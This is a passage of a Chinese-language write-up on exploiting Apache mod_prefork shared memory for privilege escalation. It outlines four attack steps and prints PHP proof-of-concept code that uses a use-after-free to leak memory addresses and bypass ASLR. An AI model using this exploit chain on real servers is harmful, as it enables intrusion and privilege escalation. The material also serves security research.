 #### 利用

利用分4个步骤

*   获得工作进程的R/W访问权限
*   在共享内存中写一个假的prefork_child_bucket结构
*   使all_buckets [bucket]指向该结构
*   等待早上6:25获得任意函数调用

问题：PHP不允许读写/proc/self/mem， 这会阻止我们利用简单方法编辑共享内存

#### 获取工作进程内存的R/W访问权限

##### PHP UAF 0-day

由于mod_prefork经常与mod_php结合使用，因此通过PHP利用漏洞似乎很自然。我们使用PHP 7.x中的0day UAF（这似乎也适用于PHP5.x）来完成利用(也可以利用CVE-2019-6977)

```
<?php

class X extends DateInterval implements JsonSerializable

{

public function jsonSerialize()

{

global $y, $p;

unset($y[0]);

$p = $this->y;

return $this;

}

}

function get_aslr()

{

global $p, $y;

$p = 0;

$y = [new X(‘PT1S’)];

json_encode([1234 => &$y]);

print(“ADDRESS: 0x” . dechex($p) . “\n”);

return $p;

} `get_aslr();` 
```
